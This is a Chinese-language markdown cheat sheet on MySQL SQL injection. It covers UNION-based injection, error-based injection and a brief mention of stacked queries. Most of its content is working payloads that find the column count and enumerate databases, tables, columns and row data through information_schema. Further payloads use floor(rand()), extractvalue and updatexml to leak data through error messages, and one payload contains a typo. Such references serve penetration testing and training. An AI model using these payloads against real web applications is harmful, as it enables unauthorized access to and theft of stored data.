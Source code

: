 # 回显注入法--能在页面直接显示结果
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 UNION联合查询
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: 通过 union 操作符，合并两个或者多个select语句的结果集
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;union内部的select语句必须拥有**相同数量的列**，列的数据类型必须相似，列的顺序也必须相同
![](/assets/WX20190221-152225@2x.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: union注入法前提要**知道列数**和**页面能回显**
```sql
确定列数: order by NUM，NUM采用二分方法加快查询速度，NUM回显报错就说明超过列数
显示位置: 参数 union select num1，num2，..,NUM，参数要强制报错，才能显示返回数据的位置
查询库: union select num1,group_concat(schema_name) from information_schema.schemata
查询表: union select num1,group_concat(table_name) from information_schema.tables where table_schema=database()
查询列: union select num1,group_concat(column_name) from information_schema.columns where table_name='表名'(注1)
查数据: union select num1,concat_ws(0x7e,列名,列名) from 库名.表名

注意点: 1.表名加引号,推荐改为十六进制(hex),记得添加 0x。

```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 报错查询
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: 构造payload让信息通过错误提示回显出来
![](/assets/F959A1FB7211CB335A3944DE5CBA4FF1.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 经典报错函数（结合Burpsuite快速获取内容）
![](/assets/2DA57441F54D5F917232F998ACD62900.png)
![](/assets/7DF1248C5FA74AA8624787ECEBB8C368.png)
```sql
and (select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2))) %23
select version()可替换 select table_name from information_schema.tables where table_schema=database() limit 0,1
```
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Payload: and extractvalue(1, payload)
```sql
and extractvalue(1, concat(0x7e,(select @@version),0x7e)) and updatexml(1,concat(0x23,(select table_name from
information_schema.tables where table_schema='newblog' limit 0,1),0x23),1)
```
![](/assets/22F086091F949BB64B59D97865EFE310.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Payload: and updatexml(1,payload,1)
```sql
    and updatexml(1, concat(0x7e,(secect @@version),0x7e),1)
```
![](/assets/26024E61529BC7DF606D3641DB676AAB.png)

**注意: [其他报错方式](https://www.waitalone.cn/mysql-error-based-injection.html)、报错返回会有32限制(采用substr(concat(内容),1,2)截取)**
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 堆叠注入
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理: 堆叠查询可以执行多条SQL语句，语句之间以分号(;)隔开
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[堆叠注入实战](https://blog.csdn.net/SouthWind0/article/details/82929895)、[各库堆叠注入](https://www.cnblogs.com/0nth3way/articles/7128189.html)









